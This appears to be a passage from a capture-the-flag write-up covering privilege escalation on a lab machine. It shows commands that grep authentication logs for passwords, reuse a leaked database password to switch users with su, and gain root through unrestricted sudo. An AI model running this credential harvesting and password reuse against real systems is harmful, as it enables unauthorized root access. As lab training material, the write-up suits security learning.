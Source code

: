 
## ⬆️ Privilege Escalation

### System Enumeration

```bash
# User information
id
# Output: uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)

# Check group permissions
groups tim
```

**🎯 Key Finding:** User `tim` belongs to the `adm` group, enabling access to system logs.

### Log Analysis & Password Discovery

```bash
# Search for sensitive information in logs
grep -r "sudo\|password" /var/log/auth.log* 2>/dev/null
```

**💥 Critical Discovery:** Password exposed in authentication logs:

```plaintext
/var/log/auth.log.2:Dec 13 15:40:33 silver-platter sudo: tyler : TTY=tty1 ; PWD=/ ; 
USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d 
-e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

### Lateral Movement: Password Reuse Attack

```bash
# Attempt user switching with discovered password
su tyler
# Password: _Zd_zx7N823/
```

![Tyler User Access](https://miro.medium.com/v2/resize:fit:1192/format:webp/1*WojBAeh6vRw4MHbRGPPWyg.png align="left")

### Privilege Check

```bash
# Check sudo permissions
sudo -l
```

**🚨 Critical Finding:** Tyler has unrestricted sudo access: `(ALL : ALL) ALL`

### Root Escalation

```bash
# Escalate to root
sudo -i
```
